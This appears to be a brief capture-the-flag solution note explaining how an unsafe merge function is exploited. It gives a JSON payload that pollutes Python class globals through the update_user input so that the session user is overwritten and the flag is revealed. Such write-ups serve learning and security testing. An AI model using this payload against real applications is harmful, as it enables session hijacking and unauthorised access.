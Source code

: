 The vulnerable function is an unsafe merge. To exploit it, place this payload into the input at update_user : 

 {"__class__":{"__init__":{"__globals__":{"session":{"user":"Ben Dover"}}}}}

 This changes the session's user to "Ben Dover", which opens up the flag.
